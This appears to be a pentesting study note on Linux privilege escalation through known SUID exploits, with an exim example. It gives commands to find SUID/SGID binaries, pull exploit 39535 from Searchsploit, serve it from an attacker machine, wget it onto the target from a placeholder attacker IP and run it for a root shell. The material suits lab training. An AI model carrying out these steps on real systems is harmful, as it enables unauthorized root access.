






Known Exploits
Known Exploits
Certain programs install SUID files to aid their operation.
Just as services which run as root can have vulnerabilities we can exploit for a root shell, so too can these SUID files.
Exploits for SUID files can be found using Searchsploit, Google, and GitHub, in the same way we find exploits for Kernels and Services.
0. Linux Smart Enumeration(lse.sh)
target@debian:~$ ./lse.sh -i | more

1. manually locate files with the SUID or SGID bits set:
target@debian:~$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null


We can see that exim-4.84-3 file should execute with SUID permissions
2. Verify/Check version of the binary
target@debian:~$ <binary> --version
3. search exploit with Searchsploit
target@debian:~$ searchsploit <program&version>

4. Copy the exploit script across to the target machine.
◇ You may need to remove ^M characters from the script if we get an error like that when we try to execute it

This can happen when the the exploit code was written using Windows New Line characters
◇ Note that to get ^M on linux you have to hold Ctrl and then press V and M in succession.
#copy the exploit in the actual folder
attacker@kali:/# cp /usr/share/exploitdb/exploits/linux/local/39535.sh .
#remove ^M characters from the script
#WARNING: we cannot copy the following command from Windows because to make the
# ^M character, we have to hold Ctrl and then press V and M in succession
attacker@kali:/# sed -e "s/^M//" 39535.sh > privesc.sh #WARNING! see line above
attacker@kali:/# python -m SimpleHTTPServer
target@debian:~$ wget http://<attackerIp>:8000/privesc.sh
5. Make sure that the script is executable
target@debian:~$ chmod +x privesc.sh
6. Execute the script to gain a root shell
target@debian:~$ ./privesc.sh
